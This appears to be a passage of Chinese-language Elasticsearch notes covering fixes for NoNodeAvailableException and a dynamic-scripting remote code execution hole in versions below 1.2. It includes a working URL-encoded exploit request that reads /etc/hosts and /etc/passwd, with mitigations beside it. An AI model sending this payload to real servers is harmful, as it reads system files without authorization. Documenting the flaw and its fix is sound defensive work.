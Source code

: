 8. org.elasticsearch.client.transport.NoNodeAvailableException: No node available
1） 端口错
    ```java
        client = new TransportClient().addTransportAddress(new InetSocketTransportAddress(ipAddress, 9300));
	    ```
	    这里9300 写成9200的话会No node available要是你连的不是本机，注意IP有没有正确
	    2）jar报引用版本不匹配，开启的服务是什么版本，引用的jar最好匹配（这个我没有去试，反正我的是匹配的）
	    3） 要是你改了集群名字，还有设置集群名字
	        ```java
		    Settings settings =     ImmutableSettings.settingsBuilder().put("cluster.name", "xxx").build();
		        client = new TransportClient(settings).addTransportAddress(new InetSocketTransportAddress(ipAddress, 9300));
			    ```
			    4）集群超过5s没有响应
			    解决方法
			    >1. 设置client.transport.ping_timeout设大
			    >2. 代码内加入
			        ```java
				    while (true) {
				            try {
				                bulk.execute().actionGet(getRetryTimeout());
						break;
					    }
					    catch (NoNodeAvailableException cont) {
					        Thread.sleep(5000);
					        continue;
					    }
				    }
			```

9. elasticsearch
   近日被发现漏洞，可以远程执行任意代码，由于elasticsearch提供了http接口，导致可能通过CSRF等方式借助恶意页面浏览发生攻击。
   漏洞影响版本:
   elasticsearch 1.2以下
   测试代码：
   http://ESSERVERIP:9200/_search?source=%7B%22size%22%3A1%2C%22query%22%3A%7B%22filtered%22%3A%7B%22query%22%3A%7B%22match_all%22%3A%7B%7D%7D%7D%7D%2C%22script_fields%22%3A%7B%22%2Fetc%2Fhosts%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fhosts%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%2C%22%2Fetc%2Fpasswd%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fpasswd%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%7D%7D&callback=jQuery111102863897154977554_1400571156308&_=1400571156309
   浏览器会返回/etc/passwd内容
   解决方案：
   >1、在配置文件elasticsearch.yml里设置script.disable_dynamic: true
   >2、严格限制可访问elasticsearch服务的IP地址




参考文献：
- Elasticsearch Guide
- Elasticsearch Glossary of terms
- ES China Conference 3 PPT: http://pan.baidu.com/s/1i3qsoBF
- http://www.cnblogs.com/MrHiFiy/archive/2012/12/06/2806228.html
- http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts
- http://blog.csdn.net/laigood/article/details/8193170




